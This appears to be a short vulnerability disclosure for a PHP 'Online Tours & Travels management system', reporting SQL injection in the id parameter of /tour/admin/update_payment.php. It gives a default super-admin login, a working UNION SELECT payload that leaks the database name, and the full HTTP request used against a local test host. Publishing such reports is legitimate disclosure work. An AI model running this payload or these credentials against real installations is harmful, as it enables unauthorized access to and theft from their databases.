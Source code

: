 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Autumn

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_payment.php

Vulnerability location: /tour/admin/update_payment.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_payment.php?id=1%27%20union%20select%201,database()--+ // Leak place ---> id

```sql
GET /tour/admin/update_payment.php?id=1%27%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183013261-c2875182-b0e5-468d-b275-3ea795a6f11e.png)
